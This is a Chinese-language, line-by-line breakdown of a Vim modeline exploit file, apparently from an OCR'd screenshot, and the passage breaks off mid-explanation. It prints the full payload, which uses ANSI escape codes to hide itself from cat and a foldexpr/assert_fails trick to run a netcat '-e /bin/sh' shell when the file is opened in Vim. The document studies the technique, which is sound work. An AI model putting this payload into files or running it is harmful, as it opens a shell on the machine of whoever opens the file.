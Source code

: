 逐条解释：

```shell
# exp.txt: 
\x1b[?7l\x1bSNothing here.\x1b:silent! w | call system(\'nohup nc.traditional 127.0.0.1 9999 -e /bin/sh &\') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[2KNothing here."\x16\x1b[2D  \n

# 下文括号中的c表示用于欺骗cat，v表示Vim脚本正常指令

\x1b[?7l (c)
# 关闭自动换行
# 配合\x1b[1G和\x1b[K使用，见下文
# 具体定义和测试Demo见附件 ANSI escape codes 部分

\x1bS (v)
# <ESC>S 相当于依次按下ESC键和S键
# 表示剪切当前行，并从Normal mode切换到Insert mode
# 经测试，这里的\x1b是可以去掉的
# 具体定义和测试Demo见附件 ANSI escape codes 部分

Nothing here. (v)
# 在Insert mode下写入字符串 Nothing here.

\x1b (v)
# 相当于依次按下ESC键，退出Insert mode 返回Normal mode

:  (v)
# 从Normal mode进入Command-line mode

silent! w (v)
# 保存写入的内容，并且关闭回显
# 具体定义和测试Demo见附件 Vim表达式和脚本部分

| call system(\'nohup nc.traditional 127.0.0.1 9999 -e /bin/sh &\') (v)
# 调用system 函数执行Shell命令
# 具体定义和测试Demo见附件 Vim表达式和脚本部分

| redraw! (v)
# 清除回显信息
# 具体定义和测试Demo见附件 Vim表达式和脚本部分

| file | silent! [some text] (v)
# 显示当前文件信息，silent!用于清除后面的字符串产生的报错信息
# 最后的效果就是屏幕底部显示的是file的执行结果

vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: (v)
# vim加载时modeline的正文部分
# fen foldenable, 开启代码折叠folding功能
# fdm foldmethod, 设置folding方法为expr
# fde foldexpr, 设置fold expression
# assert_fails Vim的内部函数，可以执行第一个参数指定的vim命令，具体见附件
# 此处执行了两个命令：
# set fde 把foldexpr设置为x(相当于设置为无效)
# source % 把当前文件视为vim脚本，加载并执行
# fdl foldlevel 设置为0表示所有满足条件的文本块都折叠显示(与exp无关)

\x16 (v) 
# 这个很关键，由于是用source! %打开，所以文本的内容都会识别成在Normal mode下的输入，比如\x1b就是按下<ESC>, S就代表按下键盘(shift+s)，而当执行到第二个silent! 之后，后面的字符串直到'\n'我们希望它们被忽略，但是为了构造cat的输出, 字符串中包含了很多escape code比如\x1b[D, 但是这些也会被识别成键盘的按键操作，导致整个指令都无法执行 而\x16正是为了解决这个问题，它会把下一个按键解析成字符而不会让它执行按键功能，具体分析见附件 ANSI escape codes部分。


\x1b[1G (c)
```